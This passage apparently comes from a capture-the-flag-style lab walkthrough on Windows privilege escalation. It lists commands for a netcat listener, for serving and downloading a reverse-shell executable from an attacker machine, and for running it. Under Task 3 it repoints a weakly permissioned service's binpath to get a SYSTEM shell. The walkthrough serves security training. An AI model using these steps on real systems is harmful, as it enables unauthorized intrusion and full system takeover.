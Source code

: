 <p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/5adcdcd8-0a98-4fea-ad66-2f69cd30ed40"></p>

```bash
:~/WindowsPrivEsc# xfreerdp /u:user /p:password321 /cert:ignore /v:xx.xxx.xx.xx /dynamic-resolution
```

```bash
:~/WindowsPrivEsc# python3.9 /opt/impacket/build/scripts-3.9/smbserver.py xxxxxxxxxxxxxxxxxxx .
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
```

```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
PS C:\PrivEsc> wget http://xx.xxx.x.xx:8000/reverse.exe -o reverse.exe
```

```bash
:~/WindowsPrivEsc# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xx - - [15/Oct/2025 xx:xx:xx] "GET /reverse.exe HTTP/1.1" 200 -
```

```bash
PS C:\PrivEsc>reverse.exe
```

<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/5df3030d-b7de-4945-885c-3e6c6c7abd8d"></p>

<br>
<h2>Task 3 . 𝗦𝗲𝗿𝘃𝗶𝗰𝗲 𝗘𝘅𝗽𝗹𝗼𝗶𝘁𝘀 - Insecure Service Permissions<a id='3'></a></h2>
<p>Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:<br>

<code>C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc</code><br>

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).<br>

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):<br>

<code>sc qc daclsvc</code><br>

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:<br>

<code>sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""</code><br>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:<br>

<code>net start daclsvc</code></p>

<p><em>Answer the questions below</em></p>

